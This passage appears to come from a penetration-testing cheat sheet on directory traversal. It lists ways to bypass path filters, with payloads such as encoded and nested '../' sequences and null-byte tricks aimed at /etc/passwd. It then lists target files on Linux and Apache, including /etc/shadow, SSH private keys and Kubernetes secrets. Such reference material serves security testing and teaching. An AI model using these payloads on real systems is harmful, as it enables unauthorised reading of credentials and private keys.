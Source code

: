 If an application strips or blocks directory traversal sequences from the user-supplied filename, it might be possible to bypass the defense using a variety of techniques.

* **Absolute paths**: Using absolute paths such as `filename=/etc/passwd` sometimes works.

* **Nested Sequences**: The use of nested sequences such as `...////` or `....\/`  will be revert to simple travesal sequences when the `../` is stripped.

* **URL Encode or doble URL Encode**: URL encode the `../` characters to `%2e%2e%2f` and `%252e%252e%252f` respectively. Some non estandards encodings such as `..%c0%af` or `..%ef%bc%8f` may work.

* **Expected folder**: The app may require the user-supplied filename to start with the expected base folder like `filename=/var/www/images/image.png` so `filename=/var/www/images/../../../../etc/passwd` could work.

* **Expected extension**: The app may require the user-supplied extension such as `filename=image.png` so we can use the null byte character `%00` to effectively terminate the string. `filename=/etc/passwd%0a.png`

# Interesting Files

There are some interesting files to read, such as information about the server (users, groups), logs, etc...

## Linux

```
/etc/passwd
/etc/shadow
/etc/issue
/etc/group
/etc/hostname
/etc/ssh/ssh_config
/etc/ssh/sshd_config
/root/.ssh/id_rsa
/root/.ssh/authorized_keys
/home/user/.ssh/authorized_keys
/home/user/.ssh/id_rsa
/proc/[0-9]*/fd/[0-9]*
/proc/mounts
/home/$USER/.bash_history
/home/$USER/.ssh/id_rsa
/var/run/secrets/kubernetes.io/serviceaccount
/var/lib/mlocate/mlocate.db
/var/lib/mlocate.db
```

## Apache

```
/etc/apache2/apache2.conf
/usr/local/etc/apache2/httpd.conf
/etc/httpd/conf/httpd.conf
Red Hat/CentOS/Fedora Linux -> /var/log/httpd/access_log
Debian/Ubuntu -> /var/log/apache2/access.log
FreeBSD -> /var/log/httpd-access.log
/var/log/apache/access.log
/var/log/apache/error.log
/var/log/apache2/access.log
/var/log/apache/error.log
```
